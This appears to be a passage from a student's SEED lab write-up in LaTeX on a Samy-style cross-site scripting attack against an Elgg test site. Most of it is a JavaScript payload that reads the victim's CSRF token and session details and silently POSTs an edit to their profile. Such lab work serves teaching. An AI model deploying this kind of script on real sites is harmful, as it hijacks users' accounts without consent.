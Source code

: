 \documentclass[12pt]{article}
\begin{document}
So, basically content is the concatenated form of all the attributes. We can use this directly in the following way:

\begin{verbatim}
<script type="text/javascript">
	window.onload = function() {
	    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	    var token="&__elgg_token="+elgg.security.token.__elgg_token;
	    var name=elgg.session.user.name;
	    var guid=elgg.session.user.guid;
        var sendurl='/action/profile/edit';
	    var content=`__elgg_token=${token}&__elgg_ts=${ts}&name=${name}&description=1905001&accesslevel[description]=1&briefdescription=I am Samy, the worm. Catch me if you can.&accesslevel[briefdescription]=1&location=Moscow&accesslevel[location]=1&interests=Hacking&accesslevel[interests]=1&skills=Cyber Security&accesslevel[skills]=1&contactemail=abc@yahoo.com&accesslevel[contactemail]=1&phone=9786546&accesslevel[phone]=1&mobile=01234567898&accesslevel[mobile]=1&website=www.clickme.com&accesslevel[website]=1&twitter=elonmusk&accesslevel[twitter]=1&guid=${guid}`;

        if(name!="Samy")
        {
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST",sendurl,true);
            Ajax.setRequestHeader("Host","www.seed-server.com");
            Ajax.setRequestHeader("Content-Type",
            "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
	}
</script>
\end{verbatim}

This yields the expected results.\newline
But there is a more elegant solution, through Form Data. We end up using that.
\end{document}
